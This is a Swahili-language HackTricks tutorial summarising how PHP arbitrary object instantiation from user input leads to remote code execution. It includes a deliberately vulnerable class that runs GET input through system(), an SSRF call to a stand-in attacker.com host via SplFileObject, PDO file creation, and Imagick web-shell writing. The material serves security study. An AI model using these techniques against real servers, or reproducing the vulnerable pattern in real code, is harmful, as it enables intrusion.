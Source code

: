 # PHP - RCE kwa kutumia uundaji wa vitu: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa bingwa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

Hii ni muhtasari wa [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Utangulizi

Uundaji wa vitu vipya visivyojulikana, kama vile `new $_GET["a"]($_GET["a"])`, unaweza kusababisha Utekelezaji wa Kanuni kwa Mbali (RCE), kama ilivyoelezwa katika [**makala**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hati hii inaelezea mikakati mbalimbali ya kufanikisha RCE.

## RCE kupitia Darasa za Kibinafsi au Kujisomea

Sintaksia `new $a($b)` hutumiwa kuunda kipengee ambapo **`$a`** inawakilisha jina la darasa na **`$b`** ni hoja ya kwanza iliyopitishwa kwa konstrukta. Hizi ni hoja ambazo zinaweza kupatikana kutoka kwa pembejeo za mtumiaji kama vile GET/POST, ambapo zinaweza kuwa herufi au mizunguko, au kutoka kwa JSON, ambapo zinaweza kuwa aina nyingine.

Fikiria kificho kilichopo hapo chini:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Katika kesi hii, kuweka `$a` kama `App` au `App2` na `$b` kama amri ya mfumo (kwa mfano, `uname -a`) kunasababisha utekelezaji wa amri hiyo.

**Kazi za kujisomea moja kwa moja** zinaweza kudukuliwa ikiwa hakuna darasa kama hilo linalopatikana moja kwa moja. Kazi hizi hulipakia moja kwa moja darasa kutoka kwenye faili wakati inahitajika na zinatangazwa kwa kutumia `spl_autoload_register` au `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Tabia ya kujisomea inatofautiana na toleo la PHP, ikitoa fursa tofauti za RCE.

## RCE kupitia Darasa Zilizojengwa

Kukosekana kwa darasa za desturi au autoloaders, **darasa za PHP zilizojengwa** zinaweza kuwa za kutosha kwa RCE. Idadi ya darasa hizi inatofautiana kati ya 100 hadi 200, kulingana na toleo la PHP na nyongeza zilizowekwa. Zinaweza kuorodheshwa kwa kutumia `get_declared_classes()`.

Wakati wa kujenga darasa, inawezekana kutambua wajenzi wa kuvutia kupitia API ya uchunguzi, kama ilivyoonyeshwa katika mfano ufuatao na kiungo [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE kupitia njia maalum ni pamoja na:**

### **SSRF + Phar Deserialization**

Darasa la `SplFileObject` linawezesha SSRF kupitia wajenzi wake, kuruhusu uunganisho kwa URL yoyote:
```php
new SplFileObject('http://attacker.com/');
```
SSRF inaweza kusababisha mashambulizi ya deserialization katika toleo la PHP kabla ya 8.0 kwa kutumia itifaki ya Phar.

### **Kuathiri PDOs**

Mjenzi wa darasa la PDO huruhusu uunganisho na database kupitia herufi za DSN, ambazo zinaweza kuwezesha uundaji wa faili au mwingiliano mwingine:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Toleo la PHP hadi 5.3.22 na 5.4.12 lilikuwa linaweza kushambuliwa na mashambulizi ya XXE kupitia wajenzi wa `SoapClient` na `SimpleXMLElement`, kulingana na toleo la libxml2.

## RCE kupitia Ugani wa Imagick

Katika uchambuzi wa **tegemezi za mradi**, iligundulika kuwa **Imagick** inaweza kutumika kwa **utekelezaji wa amri** kwa kuunda vitu vipya. Hii inatoa fursa ya kutumia udhaifu.

### Mchambuzi wa VID

Uwezo wa mchambuzi wa VID wa kuandika maudhui kwenye njia yoyote iliyotajwa kwenye mfumo wa faili uligunduliwa. Hii inaweza kusababisha kuwekwa kwa kabati la PHP kwenye saraka inayopatikana kwenye wavuti, ikifanikisha Utekelezaji wa Amri kwa Mbali (RCE).

#### Mchambuzi wa VID + Kuleta Faili

Imeonekana kuwa PHP inahifadhi faili zilizopakiwa kwa muda katika `/tmp/phpXXXXXX`. Mchambuzi wa VID katika Imagick, kwa kutumia itifaki ya **msl**, inaweza kushughulikia alama za mwanya katika njia za faili, kurahisisha uhamishaji wa faili ya muda mfupi kwenye eneo lililochaguliwa. Njia hii inatoa njia nyingine ya kuandika faili isiyojulikana kwenye mfumo wa faili.

### PHP Crash + Brute Force

Njia iliyoelezwa katika [**maandishi ya awali**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) inahusisha kupakia faili ambazo husababisha kushindwa kwa seva kabla ya kufutwa. Kwa kujaribu jina la faili ya muda mfupi, inawezekana kwa Imagick kutekeleza nambari ya PHP isiyojulikana. Walakini, mbinu hii iligundulika kuwa na ufanisi tu katika toleo lililopitwa na wakati la ImageMagick.

## Marejeo

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi wa PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au **kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PR kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
